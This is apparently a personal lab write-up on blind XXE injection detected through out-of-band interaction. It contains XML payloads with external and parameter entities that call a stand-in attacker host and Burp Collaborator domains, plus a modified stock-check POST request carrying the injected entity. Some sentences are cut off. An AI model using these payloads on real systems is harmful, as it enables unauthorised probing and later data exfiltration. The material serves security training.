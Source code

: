 # Blind XXE with out-of-band interaction
Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses

You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
You can trigger XML parsing errors in such a way that the error messages contain sensitive 

out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.


Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
<!ENTITY % myparameterentity "my parameter entity value" >

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.


First step I used burp collaborator 
wrrcbbhahix1cj0c7k0s7vp3eukk89.burpcollaborator.net

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "1xzhhgnfnn36io6hdp6xd0v8kzqqef.burpcollaborator.net"> ]>


From this I was able to receive http requests after modifying the following POST request to the /product/stock HTTP/1.1 section:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://1xzhhgnfnn36io6hdp6xd0v8kzqqef.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
